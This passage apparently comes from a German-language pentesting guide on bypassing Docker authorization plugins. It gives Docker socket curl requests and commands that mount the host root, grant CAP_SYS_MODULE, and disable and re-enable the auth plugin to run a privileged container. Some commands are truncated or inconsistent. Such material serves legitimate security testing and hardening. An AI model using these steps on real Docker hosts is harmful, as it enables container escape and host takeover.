 Befolgen Sie die gleichen Anweisungen wie bei **Binds in root**, indem Sie diese **Anfrage** an die Docker API senden:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "HostConfig":{"Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}}' http:/v1.40/containers/cre
```
## Unchecked JSON Attribute

Es ist möglich, dass der Sysadmin beim Konfigurieren der Docker-Firewall **ein wichtiges Attribut eines Parameters** der [**API**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) wie "**Capabilities**" innerhalb von "**HostConfig**" **vergessen hat**. Im folgenden Beispiel ist es möglich, diese Fehlkonfiguration auszunutzen, um einen Container mit der **SYS\_MODULE**-Berechtigung zu erstellen und auszuführen:
```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```
{% hint style="info" %}
Die **`HostConfig`** ist der Schlüssel, der normalerweise die **interessanten** **Befugnisse** enthält, um aus dem Container zu entkommen. Beachten Sie jedoch, wie die Verwendung von Binds außerhalb davon ebenfalls funktioniert und Ihnen möglicherweise ermöglicht, Einschränkungen zu umgehen.
{% endhint %}

## Deaktivieren des Plugins

Wenn der **Sysadmin** **vergessen** hat, die Möglichkeit zu **verbieten**, das **Plugin** zu **deaktivieren**, können Sie dies ausnutzen, um es vollständig zu deaktivieren!
```bash
docker plugin list #Enumerate plugins

# If you don’t have access to enumerate the plugins you can see the name of the plugin in the error output:
docker: Error response from daemon: authorization denied by plugin authobot:latest: use of Privileged containers is not allowed.
# "authbolt" is the name of the previous plugin

docker plugin disable authobot
docker run --rm -it --privileged -v /:/host ubuntu bash
docker plugin enable authobot
```
Denke daran, das **Plugin nach der Eskalation wieder zu aktivieren**, sonst funktioniert ein **Neustart des Docker-Dienstes nicht**!

## Auth Plugin Bypass Writeups
